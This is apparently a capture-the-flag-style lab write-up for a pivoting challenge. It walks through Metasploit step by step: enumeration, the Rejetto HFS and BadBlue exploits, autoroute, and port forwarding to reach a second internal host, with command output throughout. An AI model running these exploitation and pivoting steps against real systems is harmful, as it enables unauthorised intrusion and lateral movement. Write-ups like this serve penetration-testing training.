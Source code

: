 # 🔬Pivoting

> 🔬 [Pivoting](https://attackdefense.com/challengedetails?cid=2332)
>
> - Victim1 IP: `10.2.20.197`
> - VIctim2 IP: `10.2.31.35`
> - **Pivoting** technique with a *network route* to the internal network's subnet

## Enumeration & Exploitation

```bash
ping 10.2.20.197
    PING 10.2.20.197 (10.2.20.197) 56(84) bytes of data.
    64 bytes from 10.2.20.197: icmp_seq=1 ttl=125 time=2.25 ms
    64 bytes from 10.2.20.197: icmp_seq=2 ttl=125 time=1.99 ms

ping 10.2.31.35
	PING 10.2.31.35 (10.2.31.35) 56(84) bytes of data.
# No response from Victim2
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
workspace -a Pivoting
db_nmap -sV -p 80 10.2.20.197
	80/tcp open  http  HttpFileServer httpd 2.3
```

```bash
use exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.2.20.197
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
	
ipconfig
    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

    Interface 12
    ============
    Name         : AWS PV Network Device #0
    Hardware MAC : 02:58:bb:f0:89:2a
    MTU          : 9001
    IPv4 Address : 10.2.20.197
    IPv4 Netmask : 255.255.240.0
    IPv6 Address : fe80::d192:bf14:b3e2:1211
    IPv6 Netmask : ffff:ffff:ffff:ffff::
    
    Interface 24
    ============
    Name         : Microsoft ISATAP Adapter #2
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1280
    IPv6 Address : fe80::5efe:a02:14c5
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

- Victim2 is on the same Victim1 subnet - **`	10.2.16.0/20`** (look at the Interface 12)
  - ` 10.2.16.0/20` = from `10.2.16.1` to ` 10.2.31.254` = `10.2.20.0/20`


## Pivoting

- From the attacker's machine, a route through "Victim1 `10.2.20.0/20` machine" is needed, to run MSF modules against Victim2 machine

```bash
run autoroute -s 10.2.20.0/20
```

```bash
[+] Added route to 10.2.20.0/255.255.240.0 via 10.2.20.197

run autoroute -p
```

- Now, subnet `10.2.20.0/20` can be accessed with `MSFconsole`

```bash
background
```

- Scan for open ports on the Victim2 system - `10.2.31.35`

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.31.35
set PORTS 1-100
run
```

![](.gitbook/assets/image-20230429181515706.png)

- 📌 The route is only applicable to `MSFconsole`, not outside of it

## Port Forwarding

- To perform an `nmap` scan on Victim2, **a port forwarding need to be set up**.
  - **`e.g.`** forward the remote port `80` to an attacker machine local port, which will allow to perform a service version enumeration of the Victim2 service

```bash
sessions 1
```

```bash
portfwd add -l 1234 -p 80 -r 10.2.31.35
	[*] Local TCP relay created: :1234 <-> 10.2.31.35:80

background
```

```bash
db_nmap -sS -sV -p 1234 localhost
```

![Victim2 Port 80 Service](.gitbook/assets/image-20230429181718891.png)

- Exploit Victim2 target machine

```bash
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.2.31.35
set LPORT 4433
run
```

![](.gitbook/assets/image-20230429181838691.png)

```bash
background
sessions
```

![](.gitbook/assets/image-20230429182027415.png)

------


